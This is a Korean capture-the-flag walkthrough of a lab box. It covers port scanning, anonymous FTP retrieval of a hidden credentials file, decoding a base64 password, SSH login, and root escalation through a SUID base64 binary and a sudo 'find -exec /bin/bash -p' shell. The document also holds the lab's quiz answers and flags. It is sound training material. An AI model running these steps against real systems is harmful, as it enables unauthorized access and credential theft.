



# 모의해킹 기초 (레드라쿤 모의해킹 기초 실습방)

# 정보수집 및 취약점 진단

nmap을 이용한 포트스캐닝부터 진행한다.
```
┌──(kali㉿kali)-[~/tryhackme/CatchMeIfYouCan]
└─$ nmap --top-ports 1000 --max-retries 1 --min-rate 1500 --open 10.10.144.165 -oA tcpAll           
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-15 17:18 KST
Nmap scan report for 10.10.144.165
Host is up (0.29s latency).
Not shown: 576 filtered tcp ports (no-response), 421 closed tcp ports (conn-refused)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 1.92 seconds

# Detail enumeration
┌──(kali㉿kali)-[~/tryhackme/CatchMeIfYouCan]               
└─$ nmap -p 21,22,80 -Pn -n --open -sV -sC 10.10.144.165 -oA tcpDetailed                             
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-15 17:20 KST
Nmap scan report for 10.10.144.165
Host is up (0.29s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-rw-r--    1 1000     1000            0 Mar 12  2023 hiya
|_-rw-r--r--    1 0        0              45 Mar 12  2023 temporary_pw.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.59.204
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text 
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 12:8a:28:dd:91:3a:41:fd:af:6f:3a:3c:4c:43:ea:5c (RSA)
|   256 ab:36:d4:c2:a3:43:88:87:d0:89:2e:bb:b2:ce:03:51 (ECDSA)
|_  256 3a:e5:21:03:c4:de:b9:53:1a:c6:a9:66:cb:ea:1f:1b (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/dev/
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.35 seconds
```
정보 수집을 통해 ftp, ssh, http 서버가 실행되고 있는 것을 확인했다. 

### FTP(21)
우선 ftp에 대한 정보이다. vsftpd 3.0.3 버전을 사용하고 있으며 네트워크 서비스 배너그래빙으로 확인한 자세한 정보 수집에서는 익명의 로그인이 가능하다는 것이다. 대상 호스트는 FTP 서버를 운영함에 있어서 잘못된 설정으로 인한 취약점이 발견되었다. 직접 FTP 서버에 접근하여 정보수집에서 했던 것과 동일한 파일과 읽기 쓰기 권한이 있는지 확인해 본다.

```
┌──(kali㉿kali)-[~/tryhackme/CatchMeIfYouCan]
└─$ ftp 10.10.144.165
Connected to 10.10.144.165.
220 (vsFTPd 3.0.3)
Name (10.10.144.165:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp>  ls -al
229 Entering Extended Passive Mode (|||63686|)
150 Here comes the directory listing.
drwxrwxr-x    2 1000     1000         4096 Mar 12  2023 .
drwxrwxr-x    2 1000     1000         4096 Mar 12  2023 ..
-rwxrw-r--    1 1000     1000         7173 Mar 12  2023 .ssh_creds.docx
-rw-rw-r--    1 1000     1000            0 Mar 12  2023 hiya
-rw-r--r--    1 0        0              45 Mar 12  2023 temporary_pw.txt
226 Directory send OK.
ftp> get hiya
local: hiya remote: hiya
229 Entering Extended Passive Mode (|||65016|)
150 Opening BINARY mode data connection for hiya (0 bytes).
     0        0.00 KiB/s 
226 Transfer complete.
ftp> get temporary_pw.txt
local: temporary_pw.txt remote: temporary_pw.txt
229 Entering Extended Passive Mode (|||60236|)
150 Opening BINARY mode data connection for temporary_pw.txt (45 bytes).
100% |****************************************************************************************************************|    45       22.26 KiB/s    00:00 ETA
226 Transfer complete.
45 bytes received in 00:00 (0.15 KiB/s)
ftp> get .ssh_creds.docx
local: .ssh_creds.docx remote: .ssh_creds.docx
229 Entering Extended Passive Mode (|||59829|)
150 Opening BINARY mode data connection for .ssh_creds.docx (7173 bytes).
100% |****************************************************************************************************************|  7173        3.78 MiB/s    00:00 ETA
226 Transfer complete.
7173 bytes received in 00:00 (24.48 KiB/s)  
```
숨겨져 있는 파일을 포함해 모든 파일을 다운로드 받을 수 있는 것을 확인했다. 파일 업로드에 대해서는 확인하지 않는다. 대상 호스트에 최대한 아티팩트들을 남기지 않게 하기 위함이다.
다운로드한 파일을 하나씩 확인해 보겠다.
```
# hiya
┌──(kali㉿kali)-[~/tryhackme/CatchMeIfYouCan]
└─$ file hiya                   
hiya: empty
                                                                                                                                                             
┌──(kali㉿kali)-[~/tryhackme/CatchMeIfYouCan]
└─$ cat hiya 

# temporary_pw.txt
┌──(kali㉿kali)-[~/tryhackme/CatchMeIfYouCan]
└─$ cat temporary_pw.txt 
Do you see a docx file ? Read the docx file.


# .ssh_creds.docx
┌──(kali㉿kali)-[~/tryhackme/CatchMeIfYouCan]
└─$ file .ssh_creds.docx 
.ssh_creds.docx: Microsoft Word 2007+
                                                                                                                                                             
┌──(kali㉿kali)-[~/tryhackme/CatchMeIfYouCan]
└─$ libreoffice .ssh_creds.docx
```

인코딩된 패스워드를 하나 발견했다. base64 명령어를 이용하여 디코딩하여 비밀번호를 풀어 비밀번호를 획득한다.
그리고 처음에 이 파일을 만든 사람이 자신의 이름을 아는가에 대해서 물어보고 있다 이것 또한 힌트가 된다.
파일의 자세한 정보를 확인하고 작성자를 확인하기 위해서 exiftool 툴을 이용하여 정보를 수집한다.
```
# 암호 디코딩
┌──(kali㉿kali)-[~/tryhackme/CatchMeIfYouCan]
└─$ echo 'Y2F0Y2htZSFAIw==' | base64 --decode                     
<Decode_password>

# 파일의 작성자 확인
┌──(kali㉿kali)-[~/tryhackme/CatchMeIfYouCan]
└─$ exiftool .ssh_creds.docx                                                 
ExifTool Version Number         : 12.76
File Name                       : .ssh_creds.docx
Directory                       : .
File Size                       : 7.2 kB
File Modification Date/Time     : 2023:03:12 11:31:40+09:00
File Access Date/Time           : 2024:05:15 17:30:51+09:00
File Inode Change Date/Time     : 2024:05:15 17:30:51+09:00
File Permissions                : -rw-r--r--
File Type                       : DOCX
File Type Extension             : docx
MIME Type                       : application/vnd.openxmlformats-officedocument.wordprocessingml.document
Zip Required Version            : 20
Zip Bit Flag                    : 0x0808
Zip Compression                 : Deflated
Zip Modify Date                 : 1980:01:01 00:00:00
Zip CRC                         : 0x7f431349
Zip Compressed Size             : 360
Zip Uncompressed Size           : 1341
Zip File Name                   : word/numbering.xml
Creator                         : harry
```
파일의 작성자는 harry였다!

### Web(80)

기본적인 apache2의 웹페이지를 보여주는 모습이다. 정보수집에서 파악한 `robots.txt`와 `/dev` 디렉터리를 한번 확인해보겠다.

robots.txt 에서도 `/dev`경로를 Disallow 했다. 더욱 중요한 정보가 저기에 들어있을 것 같은 기분이다. 하지만 정확한 경로가 정확하지 않아 접근할 수 없으니 gobuster 툴을 이용하여 디렉터리 정보를 파악한다.
```
┌──(kali㉿kali)-[~/tryhackme/CatchMeIfYouCan]  
└─$ gobuster dir -u http://10.10.144.165/ -w /usr/share/dirb/wordlists/common.txt -t 20 | tee gobuster-80 
===============================================================
Gobuster v3.6                                                                 
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.144.165/
[+] Method:                  GET                                              
[+] Threads:                 20
[+] Wordlist:                /usr/share/dirb/wordlists/common.txt
[+] Negative Status codes:   404                                                                                                                             
[+] User Agent:              gobuster/3.6                      
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode                
===============================================================
/.htaccess            (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/.hta                 (Status: 403) [Size: 278]                  
/index.html           (Status: 200) [Size: 10918]
/robots.txt           (Status: 200) [Size: 30]
/server-status        (Status: 403) [Size: 278]
Progress: 4614 / 4615 (99.98%)                                                
===============================================================
Finished                                                                      
===============================================================
```
웹 페이지에서의 정보 수집은 여기서 끝내는 것이 맞는 것 같고 퀴즈를 풀고난 후에 SSH 연결을 통해서 초기 침투를 진행한다.

```
# 박스의 어떤 포트들이 열려있나요?  (예. 445,3389,139,135) 
21,22,80

# FTP Service는 몇번 포트를 사용하고 있나요?
21

# FTP Server에 있는 DOCX 파일의 이름은 무엇일까요?
.ssh_creds.docx

# DOCX 파일을 현 호스트 머신에 다운로드 받고 싶습니다. 파일을 가져오는 FTP의 명령어는 무엇일까요?
get

# DOCX 파일의 저자 (Creator)의 이름은 무엇일까요?
harry
```


# 초기 침투
docx 파일에서 얻은 비밀번호를 이용하여 harry 계정으로 SSH 연결을 통해 초기 침투 실시한다.
```
┌──(kali㉿kali)-[~/tryhackme/CatchMeIfYouCan]
└─$ ssh harry@10.10.144.165
The authenticity of host '10.10.144.165 (10.10.144.165)' can't be established.
ED25519 key fingerprint is SHA256:AWt6DBDufX3qfIbn7UQP2HTBa+F5G+yijI5p/nMJm1M.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.144.165' (ED25519) to the list of known hosts.
harry@10.10.144.165's password: <password>
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.4.0-144-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed 15 May 2024 10:00:14 AM UTC

  System load:  0.08              Processes:             112
  Usage of /:   33.6% of 9.75GB   Users logged in:       0
  Memory usage: 46%               IPv4 address for eth0: 10.10.144.165
  Swap usage:   0%

 * Strictly confined Kubernetes makes edge and IoT secure. Learn how MicroK8s
   just raised the bar for easy, resilient and secure K8s cluster deployment.

   https://ubuntu.com/engage/secure-kubernetes-at-the-edge

25 updates can be applied immediately.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Mon Mar 13 03:30:45 2023 from 192.168.137.131
harry@linuxgroot:~$ id; whoami; ip a
uid=1002(harry) gid=1002(harry) groups=1002(harry)
harry
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc fq_codel state UP group default qlen 1000
    link/ether 02:3b:56:88:ca:47 brd ff:ff:ff:ff:ff:ff
    inet 10.10.144.165/16 brd 10.10.255.255 scope global dynamic eth0
       valid_lft 2793sec preferred_lft 2793sec
    inet6 fe80::3b:56ff:fe88:ca47/64 scope link 
       valid_lft forever preferred_lft forever

harry@linuxgroot:~$ ls
backup
harry@linuxgroot:~$ cd backup/
harry@linuxgroot:~/backup$ ls
user   user1   user11  user13  user15  user17  user19  user20  user4  user6  user8
user0  user10  user12  user14  user16  user18  user2   user3   user5  user7  user9
harry@linuxgroot:~/backup$ find ./ -name "user.txt" 2> /dev/null
./user7/user.txt
./user16/user.txt
./user/user.txt
harry@linuxgroot:~/backup$ cat ./user7/user.txt 
GROOT{flag!!!}
harry@linuxgroot:~/backup$ cat ./user16/user.txt 
iamgroot?
harry@linuxgroot:~/backup$ cat ./user/user.txt
groot?
harry@linuxgroot:~/backup$ pwd
/home/harry/backup
```
`user.txt` 에 나오는 첫 번쨰 플래그를 찾았고 두 번째 플래그를 찾는다. 두번째 플래그는 뭔가 권한 상승을 통해서 관리자 권한을 획득해야 얻을 수 있을 것같다. 

# 권한 상승
권한 상승을 진행하기 위해서 SUID 설정된 바이너리나 뭔가 취약한 적음 파악한다
```
harry@linuxgroot:~$ find / -perm -4000 2> /dev/null
/snap/snapd/18357/usr/lib/snapd/snap-confine
/snap/core20/1828/usr/bin/chfn                                                
/snap/core20/1828/usr/bin/chsh   
/snap/core20/1828/usr/bin/gpasswd
/snap/core20/1828/usr/bin/mount
/snap/core20/1828/usr/bin/newgrp
/snap/core20/1828/usr/bin/passwd
/snap/core20/1828/usr/bin/su
/snap/core20/1828/usr/bin/sudo
/snap/core20/1828/usr/bin/umount
/snap/core20/1828/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core20/1828/usr/lib/openssh/ssh-keysign
/snap/core20/1822/usr/bin/chfn
/snap/core20/1822/usr/bin/chsh
/snap/core20/1822/usr/bin/gpasswd
/snap/core20/1822/usr/bin/mount
/snap/core20/1822/usr/bin/newgrp
/snap/core20/1822/usr/bin/passwd
/snap/core20/1822/usr/bin/su
/snap/core20/1822/usr/bin/sudo
/snap/core20/1822/usr/bin/umount
/snap/core20/1822/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core20/1822/usr/lib/openssh/ssh-keysign
/usr/bin/base64
/usr/bin/umount
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/su
/usr/bin/passwd
/usr/bin/mount
/usr/bin/at
/usr/bin/fusermount
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/chfn
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign

harry@linuxgroot:~$ ls -al /usr/bin/base64
-rwsr-xr-x 1 root root 43352 Sep  5  2019 /usr/bin/base64
harry@linuxgroot:~$ ls -al /usr/bin/find
-rwxr-xr-x 1 root root 320160 Feb 18  2020 /usr/bin/find
harry@linuxgroot:~$ ls -al /usr/bin/sudo
-rwsr-xr-x 1 root root 166056 Jan 16  2023 /usr/bin/sudo

harry@linuxgroot:~$ sudo -l
Matching Defaults entries for harry on linuxgroot:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User harry may run the following commands on linuxgroot:
    (root) NOPASSWD: /usr/bin/find

```
중점적으로 봐야할 부분은 `/usr/bin/base64`, `/usr/bin/find`이다
SUID 바이너리가 설정되있는 base64 명령어를 이용하여 권한 상승을 할 수 있고, 비밀번호 없이 관리자 계정으로 실행 권을 가지고 있는 취약한 액세스 제어 부분에 속하는 `/usr/bin/find` 명령어가 있다. 이 두개 모두를 이용하여 권한 상승을 진행해 보겠다.

1. find 명령어가 sudo로 실행이 가능하니 `flag.txt` 파일을 먼저 찾는다.
```
harry@linuxgroot:~$ sudo find / -name "flag.txt" 2> /dev/null
/root/flag.txt
```

2. SUID 설정된 base64 바이너리를 이용하여 `/root/flag.txt` 파일을 읽어온다.
```
harry@linuxgroot:~$ base64 /root/flag.txt
UjFKUFQxUjdRelIwUTJ3cmJFMUZJV1o1TUZWak5FNTlDZz09Cg==
harry@linuxgroot:~$ echo 'UjFKUFQxUjdRelIwUTJ3cmJFMUZJV1o1TUZWak5FNTlDZz09Cg==' | base64 --decode
R1JPT1R7QzR0Q2wrbE1FIWZ5MFVjNE59Cg==
harry@linuxgroot:~$ echo 'UjFKUFQxUjdRelIwUTJ3cmJFMUZJV1o1TUZWak5FNTlDZz09Cg==' | base64 --decode | base64 --decode
GROOT{최종 플래그!!}

```
알고보니 이미 base64 방식으로 인코딩을 진행한것 같다. 두번의 디코딩을 실시하여 최종 플래그를 획득 했다.

3. 관리자 계정 권한 탈취
`base64`는 파일에 대해서 디코딩을 시켜 권한이 없어도 파일을 읽을 수 있었지만, `find`는 비밀번호 없이 sudo를 실행 시킬 수 있기 때문에 `find`를 이용하여 진짜 관리자 권한 계정을 탈취한다.
```
harry@linuxgroot:~$ sudo find . -exec /bin/bash -p \; -quit


root@linuxgroot:/home/harry# id; hostname; ip a
uid=0(root) gid=0(root) groups=0(root)
linuxgroot
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc fq_codel state UP group default qlen 1000
    link/ether 02:3b:56:88:ca:47 brd ff:ff:ff:ff:ff:ff
    inet 10.10.144.165/16 brd 10.10.255.255 scope global dynamic eth0
       valid_lft 3451sec preferred_lft 3451sec
    inet6 fe80::3b:56ff:fe88:ca47/64 scope link 
       valid_lft forever preferred_lft forever

```


# 취약점
1. anonymous 로그인이 가능한 FTP 서버 (FTP 서버의 잘못된 설정)
2. 숨김파일에 적혀져있는 비밀번호 정보
3. SUID 설정된 바이너리 -> `/usr/bin/base64`
4. 취약한 액세스 제어권을 가지고 있는 harry 유저

